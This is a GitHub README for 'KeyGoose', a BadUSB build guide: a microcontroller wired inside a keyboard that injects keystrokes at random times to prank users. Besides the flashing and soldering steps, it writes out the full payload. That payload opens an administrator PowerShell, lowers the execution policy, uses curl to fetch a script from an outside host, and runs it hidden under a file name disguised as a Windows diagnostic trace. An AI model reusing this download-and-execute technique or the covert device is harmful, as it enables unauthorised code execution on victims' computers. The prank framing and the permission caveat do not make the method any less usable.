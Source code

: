 # KeyGoose
###### Hacked By Me [Video 1](http://KeyGoose.HackedBy.Me "Video 1") Code
------------
##### KeyGoose is a fun implementation of a BadUSB, where a keyboard is "hacked" by wiring a microcontroller with custom firware to the inside of the keyboard. The microcontroller is designed to randomly deliver a payload (in the form of the [Desktop Goose Game](https://samperson.itch.io/desktop-goose "Desktop Goose Game")) to unsuspecting users in only 2.25 seconds.
------------
### What's Included in this Repository?
- A KeyGoose Parts List
- Written instructions as to how to create your own KeyGoose
- A technical explanation of how KeyGoose works
- The KeyGoose code (both the Driveby and Keyboard implementation) with which to flash the microcontroller
- The powershell script fetched and run by the KeyGoose upon payload injection

## Parts List
- A USB Keyboard
	- I recommend getting the cheapest keyboard you can find on Amazon. Not only will this bring-down the cost, but the cheaper keyboards tend to be more maleable and made of a weaker plastic, making the keyboard easier to manipulate when it comes to squeezing-in the microcontroller.
	- I also found that getting a keyboard that has a battery option was ideal, as it left a nice, open area in which to embed the microcontroller.
- A Microcontroller with USB Support
	- Any microcontroller should do, as long as it is small-enough and supports USB. In this project, I used a *Beetle ATmega32u4 Development Board*
- General Tools
	- Raspberry Pi with GPIO wires
		- You may use any other preferred method to flash the microcontroller, this is simply the option I went with, and will be explaining here.
	- Solder/Soldering Iron
	- Screw Driver
	- File Set
	- 26 AWG Wire
	- Wire Stripper

## Instructions
1. Flash the microcontroller with the provided code
1. Open the keyboard and wire the microcontroller to the controller in the Keyboard
1. Enjoy!

##### Step 1
Depending on where you bought your microcontroller, it may already come with a bootloader installed. For the purposes of this project, we're going to need to get rid of the bootloader, and flash the microcontroller with our code directly. In order to do so, you'll need to get some breadboard jumper wires and a Raspberry Pi.
> Please note: There are many other ways to flash the microcontroller, so if you'd prefer to use another method, feel free to do so!

In order to begin flashing the microcontroller with the Raspberry Pi, it's important to first identify the correct General Purpose Input Output pins to use. Lookup the pinout diagram for your microcontroller. The pinout of the Raspberry Pi can be found [here](https://pinout.xyz/# "here"). If you are using the Beetle that I used, then you may use the image below as a reference. I also found [this online article](https://ozzmaker.com/program-avr-using-raspberry-pi-gpio/ "this online article") to be extremely helpful.

![Raspberry Pi GPIO Photo](https://raw.githubusercontent.com/NoahTroy/KeyGoose/master/Raspberry%20Pi%20GPIO%20Photo.jpg "Raspberry Pi GPIO Photo")

Once we have the wiring all set, our next step is to dowload and install *avrdude* on the Raspberry Pi. This can be done by running:
`sudo apt install avrdude`
Now that avrdude is installed, it's important to edit the configuration file to support flashing over GPIO. Open the configuration file (`sudo nano /etc/avrdude.conf`) and find the commented-out programmer section with the ID: "linuxgpio". You're going to want to uncomment this entire section and replace the question marks with the values 4, 11, 10, and 9, in that order, to tell avrdude which GPIO pins to use. The uncommented section should now look like this:
```
programmer
  id    = "linuxgpio";
  desc  = "Use the Linux sysfs interface to bitbang GPIO lines";
  type  = "linuxgpio";
  reset = 4;
  sck   = 11;
  mosi  = 10;
  miso  = 9;
;
```
At this point, we are ready to flash the microcontroller. I was using an ATmega32U4 (the Beetle). If you are as well, then the following command should work just fine. If not, then make sure to modify the command appropriately for your hardware:
`sudo avrdude -c linuxgpio -p atmega32u4 -v -U flash:w:KeyGoose.hex`
If you wish to flash the Driveby version of KeyGoose, be sure to replace `KeyGoose.hex` with `DrivebyGoose.hex`, in the command above.
Congratulations, you have now successfully flashed the microcontroller!

##### Step 2
Before I share how I went about wiring the Keyboard and the microcontroller together, let me be clear: *I am not an electrical engineer. I can almost guarantee you that there is probably a better, more-technical way to do this. Although everything ended-up working fine for me, there's always the chance that this could be harmful to your devices. Proceed at your own risk.*

Alright, before we get to any of the soldering, the most important thing is to carefully open-up the keyboard, and identify where the USB controller is. Make sure you're looking for the point where the USB cable is *first* soldered into the PCB. For your sake, hopefully the keyboard manufacturer followed standards, labeling their PCB and correctly color-coding the wires. Right now, your job is to figure out which of the four solder points matches with which of the four (USB) pins on your microcontroller. If you're having trouble figuring it out, [this article](https://www.electroschematics.com/usb-how-things-work/ "this article") may help. You may also rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
After you're certain that you have the correct match-up, strip the USB cabling and solder each of the four wires to the microcontroller, and the other ends to the corresponding point on the PCB. Once again, feel free to rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
Finally, use the files to grind-out a spot within the keyboard to place the microcontroller. If you managed to get a keyboard that supports a battery, I recommend placing the microcontroller there, as there should be plenty of room, and you won't obstruct the normal operation of the keyboard.

##### Step 3
Enjoy! Just make sure that if you decide to use this keyboard to prank friends, family, or others, you do so responsibly, and you always have the necessary permissions first. If used improperly, you could have hacking charges filed against you.

> ##### If you do end up using this program, make sure you head over to Desktop Goose's [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game") first, and leave a tip for the developer. I did not create this game, and we owe all of the fun of this project to them. Out of respect to the developer, the Desktop Goose game installed by this code is an out of date version. If you wish to install the latest version, feel free to get it from the [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game"), and give your thanks to the developer.

## How Does KeyGoose Work?

KeyGoose works by emulating a USB Keyboard, and injecting keystrokes very quickly into the host computer at a designated time. Below, I'll outline the exact process that KeyGoose takes:
1. The keyboard emulation code initializes, and prepares itself to inject key presses.
1. A random seed is gathered by adding together the analog sensor values from A0 and A1.
1. A random value between 1 and 6 is generated. If the value is equal to 3, the code continues. If not, the program waits 30 minutes, before restarting from the beginning. This gives the code only about a 15% chance of running every 30 minutes and/or every time the user boots their computer.
1. If the program continued, a random time delay is generated between 4 and 20 minutes long. This time delay gives the computer time to finish booting, and maintains inconsistency, to further confuse the user.
1. After the time delay, the microcontroller sends the payload, disabling the actual keyboard while it does so.
	- The payload sent is a series of key combinations to open powershell as an administrator, and then run the following command:
	- `Set-ExecutionPolicy RemoteSigned -Force; cd C:\Windows\Temp; echo "Invoke-Expression 'curl https://KeyGoosePS1.HackedBy.Me -o d7893c3e.ps1; & .\d7893c3e.ps1; C:\Windows\Temp\tw-9dc-75c-5c965a3.tmp\DesktopGoose.exe; exit'" > DiagTrack_AlternativeTrace.ps1; start-process PowerShell.exe -arg $pwd\DiagTrack_AlternativeTrace.ps1 -WindowStyle Hidden; exit`
	- This command essentially downloads the PowerShell script into the Temp directory, gives it the necessary permissions to run, then runs it. This command is designed to be exeuted in the background though, so that the PowerShell window may be closed immediately, instead of having to wait on the download and execution of the script.
